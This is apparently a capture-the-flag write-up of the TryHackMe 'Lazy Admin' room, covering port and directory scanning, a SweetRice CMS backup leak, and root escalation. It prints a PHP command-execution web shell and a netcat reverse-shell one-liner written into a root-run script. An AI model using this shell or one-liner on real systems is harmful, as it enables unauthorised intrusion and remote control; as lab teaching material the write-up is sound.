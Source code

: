 ```yaml
---
layout: post
title: Lazy Admin
date: 2020-09-23 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, hashcracking, wordpress, GTFO] # add tag
---
```


## Description

The Following Post is writeup of Lazy Admin room of tryhackme <https://tryhackme.com/room/lazyadmin>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | MrSeth6797

## Summary

The machine have 2 open ports 22 and 80, In port 80 we have sweetrice CMS(on Dirbusting). On searching
for public exploits we found a backup disclosure which contains admin username and password.
We have php code execution in ads tab of sweetrice. www-data can run a script as sudo and have write
rights for thats so putting reverse shell we will get root.

## Walkthrough

### Enumeration

```bash
┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $nmap -sC -sV -oA nmap/lazy 10.10.232.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 03:48 IST
Nmap scan report for 10.10.232.150
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.24 seconds
```

So let;s see port 80

#### port 80

So we can see few links after the Webpage loaded.
Moving on to dirbust.

```bash
┌─[✗]─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
```

Dirbusting content again.

```bash
┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/content/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

![sweetrice](/assets/img/lazyadmin/sweetrice.png)

![login](/assets/img/lazyadmin/login.png)

So we have sweetrice in /content and login in /content/as.<br/>
Let's check if we can get any info about sweetrice.

![searchsploit](/assets/img/lazyadmin/searchsploit.png)

We can see backup disclosure let's check that output
![backup](/assets/img/lazyadmin/backup.png)

Download the backup and look into it we got admin user and password.
![backup](/assets/img/lazyadmin/sql.png)

![HashCrack](/assets/img/lazyadmin/hashcrack.png)

OK so finally logged in we can see another vulnerability on ads tab in sweetrice which leads to rce.

<https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html>

#### Exploitation

so according to packet storm we can exec code using ads feature in sweet rice

![ads](/assets/img/lazyadmin/ads.png)

so i uploaded a simple php shell

```html
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>

</html>
```

let's get a reverse shell

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4444
[11:07:07] received connection from 10.10.182.220:46374                                                                connect.py:148
[11:07:08] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                                            victim.py:325
[11:07:19] pwncat running in /bin/sh                                                                                    victim.py:358
[11:07:27] pwncat is ready 🐈                                                                                           victim.py:768


(remote) www-data@THM-Chal:/$bash

www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
so we can edit copy.sh and get root

```bash
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.108.114 4443 >/tmp/f" > /etc/copy.sh

┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4443
[11:36:23] received connection from 10.10.182.220:42902                                          connect.py:148
[11:36:26] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                      victim.py:325
[11:36:39] pwncat running in /bin/sh                                                              victim.py:358
[11:36:46] pwncat is ready 🐈                                                                     victim.py:768


(remote) root@THM-Chal:/$ bash
root@THM-Chal:/# ls
bin   cdrom  etc   initrd.img      lib         media  opt   root  sbin  srv  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lost+found  mnt    proc  run   snap  sys  usr  vmlinuz
root@THM-Chal:/# cd root/
root@THM-Chal:~# ls
root.txt
root@THM-Chal:~# cat root.txt
```
